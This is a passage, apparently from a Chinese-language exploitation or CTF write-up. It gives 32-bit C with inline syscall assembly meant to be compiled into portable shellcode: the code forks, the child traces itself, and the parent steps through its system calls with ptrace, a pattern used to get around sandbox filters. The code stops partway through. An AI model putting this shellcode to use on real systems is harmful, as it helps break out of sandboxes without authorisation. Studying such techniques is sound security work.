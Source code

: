 32位的C代码和shellcode如下，编译的时候要关闭位置无关代码，否则gcc在32位下会引入\_\_x86.get\_pc\_thunk.ax函数，从而用到了GOT，导致生成的shellcode不能移植

```c
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <stdio.h>

void d(){
    pid_t child;
    int status;

    struct user_regs_struct regs;

    asm(
        "movl $2, %%eax;" //fork
		"int $0x80;"
		"movl %%eax,%0":"=r"(child)
    );
    if(child == 0) {
	asm(
	    "movl $26, %eax;" // ptrace
	    "xorl %ecx, %ecx;" //2
	    "xorl %edx, %edx;" //3
	    "xorl %esi, %esi;" //4
	    "xorl %ebx, %ebx;" //1
 	    "int $0x80;" //ptrace(PTRACE_TRACEME)
	    "movl $20, %eax;" // getpid
	    "int $0x80;" 
	    "movl %eax, %ebx;" // 0 1
	    "movl $19, %ecx;" // 2
	    "movl $37, %eax;" // 0 kill
	    "int $0x80;"
	);
	//kill(getpid(), 19);
	goto end;
    } else {
	asm(
	    "movl $114, %eax;" // 0 wait4
	    "xorl %ebx, %ebx;" // 1
	    "int $0x80;"	    
	);
	//wait(NULL);
	while(1){
	    asm(
			"movl %0, %%ecx"::"r"(child):"%ecx" // 0 2
	    );
	    asm(
			"movl $26, %eax;" // 0 ptrace
			"movl $24, %ebx;" // 1
			"xorl %edx, %edx;" // 3
			"xorl %esi, %esi;" // 4
			"int $0x80;"
	    );		      	//ptrace(PTRACE_SYSCALL, child, NULL, NULL);
	    void *p = (void *)&status;
	    asm(
			"movl %0, %%ebx"::"r"(child):"%ebx" // 0 1
	    );
	    asm(
			"movl %0, %%ecx"::"r"(p):"%ecx" // 0 2    
	    );
```